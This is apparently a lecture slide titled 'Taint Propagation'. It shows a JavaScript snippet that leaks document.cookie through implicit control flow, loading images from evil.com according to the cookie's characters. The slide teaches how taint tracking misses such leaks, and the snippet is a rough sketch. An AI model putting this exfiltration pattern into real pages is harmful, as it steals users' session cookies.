

# Taint Propagation
for (i = 0; i < document.cookie.length; i++) {

if (document.cookie[0] == “a”) {
document.body.appendChild(
  document.createElement("img").src(“http://evil.com/a”)
);
}
if (document.cookie[0] == “b”) {
document.body.appendChild(
  document.createElement("img").src(“http://evil.com/b”)
);
}
…
}